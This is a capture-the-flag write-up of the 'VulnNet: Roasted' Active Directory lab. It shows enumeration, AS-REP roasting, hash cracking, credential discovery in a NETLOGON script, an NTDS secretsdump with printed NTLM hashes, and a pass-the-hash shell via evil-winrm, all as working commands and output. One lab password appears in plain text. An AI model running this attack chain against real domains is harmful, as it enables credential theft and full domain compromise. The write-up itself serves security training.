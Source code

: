 # VulnNet: Roasted

## Enumeration using nmap
<pre>nmap -sV -sC 10.10.227.72 -Pn

Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-09-21 20:26:06Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: WIN-2BO8M1OE1M1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-09-21T20:26:08
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.99 seconds</pre>

- Port 139 + 445 is open

## Enum4Linux
<pre>enum4linux 10.10.227.72  
Domain Name:VULNNET-RST                                                                                                                           Domain Sid: S-1-5-21-1589833671-435344116-4136949213</pre>

## SMB Enumeration
- Port 139 + 445 is open
- Use `smbclient` to enumerate shares

<pre>smbmap -H 10.10.227.72 -u anonymous

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)                                
                                                                                                    
[+] IP: 10.10.227.72:445        Name: 10.10.227.72              Status: Guest session   
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        SYSVOL                                                  NO ACCESS       Logon server share 
        VulnNet-Business-Anonymous                              READ ONLY       VulnNet Business Sharing
        VulnNet-Enterprise-Anonymous                            READ ONLY       VulnNet Enterprise Sharing</pre>

- Read access to the IPC$ share as `anonymous`
- We are able to list domain users using `lookupsid.py`

## lookupsid.py
- Brute forcing of Windows SIDs to identify users.groups on the target

https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers  

<pre>sudo lookupsid.py anonymous@10.10.227.72

[sudo] password for kali: 
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

Password:
[*] Brute forcing SIDs at 10.10.227.72
[*] StringBinding ncacn_np:10.10.227.72[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-1589833671-435344116-4136949213
498: VULNNET-RST\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: VULNNET-RST\Administrator (SidTypeUser)
501: VULNNET-RST\Guest (SidTypeUser)
502: VULNNET-RST\krbtgt (SidTypeUser)
512: VULNNET-RST\Domain Admins (SidTypeGroup)
513: VULNNET-RST\Domain Users (SidTypeGroup)
514: VULNNET-RST\Domain Guests (SidTypeGroup)
515: VULNNET-RST\Domain Computers (SidTypeGroup)
516: VULNNET-RST\Domain Controllers (SidTypeGroup)
517: VULNNET-RST\Cert Publishers (SidTypeAlias)
518: VULNNET-RST\Schema Admins (SidTypeGroup)
519: VULNNET-RST\Enterprise Admins (SidTypeGroup)
520: VULNNET-RST\Group Policy Creator Owners (SidTypeGroup)
521: VULNNET-RST\Read-only Domain Controllers (SidTypeGroup)
522: VULNNET-RST\Cloneable Domain Controllers (SidTypeGroup)
525: VULNNET-RST\Protected Users (SidTypeGroup)
526: VULNNET-RST\Key Admins (SidTypeGroup)
527: VULNNET-RST\Enterprise Key Admins (SidTypeGroup)
553: VULNNET-RST\RAS and IAS Servers (SidTypeAlias)
571: VULNNET-RST\Allowed RODC Password Replication Group (SidTypeAlias)
572: VULNNET-RST\Denied RODC Password Replication Group (SidTypeAlias)
1000: VULNNET-RST\WIN-2BO8M1OE1M1$ (SidTypeUser)
1101: VULNNET-RST\DnsAdmins (SidTypeAlias)
1102: VULNNET-RST\DnsUpdateProxy (SidTypeGroup)
1104: VULNNET-RST\enterprise-core-vn (SidTypeUser)
1105: VULNNET-RST\a-whitehat (SidTypeUser)
1109: VULNNET-RST\t-skid (SidTypeUser)
1110: VULNNET-RST\j-goldenhand (SidTypeUser)
1111: VULNNET-RST\j-leet (SidTypeUser)</pre>

We have discovered the following user accounts:
Administrator  
Guest  
krbtgt  
WIN-2BO8M1OE1M1$  
enterprise-core-vn  
a-whitehat  
t-skid  
j-goldenhand  
j-leet  

### AS-REP Roasting
AS-REP Roasting occurs when a user account has the privilege "Does not require pre-authentication" in Active Directory.  

This means that the account does not need to provide identification before requesting a Kerberos ticket on the user account.

- Use GetNPUsers.py
- Query AS-REP Roastable accounts from Key Distribution Centre using usernames we discovered stored in users.txt  

<pre>GetNPUsers.py VULNNET-RST.local/ -no-pass -usersfile /home/kali/Documents/VulnNet_Roast/users.txt -dc-ip 10.10.227.72
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User WIN-2BO8M1OE1M1$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User enterprise-core-vn doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User a-whitehat doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:8a24fbdc2cc549621c14d12a525046e4$74c507233131c5f1c3e8cb7ff409ebaac2abe9c3aa1b9bfb9e652e0bfe1a9580c731a68d652b4ffa2b27211a9a2d8db205fa5fac1690e1d3cf9752cff2e93e21e79ae056c22cafe1d06fa065a4009424e05a60605ed2de250565265ea6c60c4898963f5ab4454c5b5959a048fc56e4be25d6627f46d3bdec2d2aa49de9d3d0781f30d57855f6aa23eb733c59c5d824bb6b546e938a865964349d3aab414ed1a6f21dd68ceab6e7e81c75695bb5954dbfb901459b4ee839775f92c6f48a9fb92c78feb0a1e96b7dba8dda09d45b705aaadd4009d51bbb6a762eae59e8bc01147c84f9894e03bfbaafbf317170fbb249052be02aefa392
[-] User j-goldenhand doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j-leet doesn't have UF_DONT_REQUIRE_PREAUTH set</pre>

Discovered a hash for user account `t-skid`  

Hash is displayed as `Kerberos 5, etype 23, AS-REP`  

- Crack the hash using Hashcat
<pre>hashcat -m 18200 /home/kali/Documents/VulnNet_Roast/TGT_ticket.txt /usr/share/wordlists/rockyou.txt</pre>

We now have cracked the password for user account `t-skid`

## Enumerate + Connect to SMB using t-skid account
- Enumerate the shares we can access
<pre>smbmap -H 10.10.227.72 -u t-skid -p '*****'</pre>

- As the Anonymous account earlier, we couldn't access NETLOGON
- Connect to NETLOGON share

<pre>smbclient \\\\10.10.227.72\\NETLOGON -U t-skid
Password for [WORKGROUP\t-skid]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Mar 16 19:15:49 2021
  ..                                  D        0  Tue Mar 16 19:15:49 2021
  ResetPassword.vbs                   A     2821  Tue Mar 16 19:18:14 2021

smb: \> get ResetPassword.vbs
getting file \ResetPassword.vbs of size 2821 as ResetPassword.vbs (1.6 KiloBytes/sec) (average 1.6 KiloBytes/sec)</pre>

- Discovered credentials in the .vbs script

strUserNTName = "a-whitehat"  
strPassword = "*********"

## Dump NTDS.dit
- Check if user `a-whitehat` has the privilege to dump hashes 

<pre>secretsdump.py vulnnet-rst/a-whitehat:'bNdKVkjv3RR9ht'@10.10.227.72

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:7633f01273fc92450b429d6067d1ca32:::
vulnnet-rst.local\enterprise-core-vn:1104:aad3b435b51404eeaad3b435b51404ee:8752ed9e26e6823754dce673de76ddaf:::
vulnnet-rst.local\a-whitehat:1105:aad3b435b51404eeaad3b435b51404ee:1bd408897141aa076d62e9bfc1a5956b:::
vulnnet-rst.local\t-skid:1109:aad3b435b51404eeaad3b435b51404ee:49840e8a32937578f8c55fdca55ac60b:::
vulnnet-rst.local\j-goldenhand:1110:aad3b435b51404eeaad3b435b51404ee:1b1565ec2b57b756b912b5dc36bc272a:::
vulnnet-rst.local\j-leet:1111:aad3b435b51404eeaad3b435b51404ee:605e5542d42ea181adeca1471027e022:::
</pre>

## Evil-WinRM
- Ultimate shell for hacking/pentesting

<pre>evil-winrm -i 10.10.227.72 -u Administrator -H c2597747aa5e43022a3a3049a3c3b09d</pre>
